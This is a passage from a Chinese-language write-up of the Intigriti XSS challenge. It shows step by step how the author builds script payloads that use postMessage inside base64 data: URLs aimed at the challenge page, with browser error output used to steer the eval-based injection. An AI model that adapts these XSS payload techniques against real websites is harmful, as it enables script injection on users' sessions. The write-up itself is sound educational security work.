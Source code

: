 运行之后竟然没有效果！我在executeCtx()中设置了一个断点，但是并没有被触发。所以我去翻了一下MDN文档，并查看了postMessage函数的调用方式：

** [![](https://p4.ssl.qhimg.com/t01402a4f3edae9d7f0.png)](https://p4.ssl.qhimg.com/t01402a4f3edae9d7f0.png)**

原来，postMessage()必须在接收消息的窗口中被调用。对Payload进行修改之后，我们就能实现我们的目标了，修改后的代码如下：

```
&lt;script&gt;window.parent.postMessage("test", "*")&lt;/script&gt;
```

我需要主window接收到这条消息，那么对于iframe来说，我们要用的就是window.parent了。新生成的URL如下：

```
https://challenge.intigriti.io/#data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKCJ0ZXN0IiwgIioiKTwvc2NyaXB0Pg.
```

非常好，现在我们就可以在executeCtx中触发JavaScript错误了：

```
(index):31 Uncaught TypeError: Failed to set an indexed property on 'Window': Index property setter is not supported.
    at Function.assign (&lt;anonymous&gt;)
    at executeCtx ((index):31)
```

这是因为我们的数据类型位字符串类型，触发错误的地方在“Object.assign(window, e.data);”这一行。我们先试试传递一个空对象进去，修改后的Payload如下：

```
&lt;script&gt;window.parent.postMessage(`{``}`, "*")&lt;/script&gt;
```

编码后的URL地址如下：

```
https://challenge.intigriti.io/#data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ+
```

运行之后，我们接收到了eval(url)抛出的异常，异常信息为“Uncaught SyntaxError: Unexpected end of input”。所以，这个函数是法处理url变量外的有效JavaScript代码，而这里url变量设置的值为：

```
data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ+
```

可是，它怎么看都不像JavaScript代码啊…

### <a class="reference-link" name="%E6%8A%8AURL%E5%8F%98%E6%88%90JavaScript"></a>把URL变成JavaScript

现在，我们的目标就变成了如何让eval(url)来解析有效的JavaScript代码（现在我们仍不需要考虑XSS利用方面的问题）。我知道很多东西都可以通过编码来转变成JavaScript代码，比如说JSFuck之类的。所以我尝试在控制台中运行了下列代码：

```
eval('data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ+')
```

正如我们所期待的那样，代码抛出了之前相同的错误：“Unexpected end of input”，这就意味着解析器还需要我们传入另一个参数。我设计的URL结尾是一个“+”，不过对于JavaScript来说，这个字符其实没啥作用，所以我把它删掉了。但是这样会让我的Base64编码字符串失效，这个可以之后再处理了。
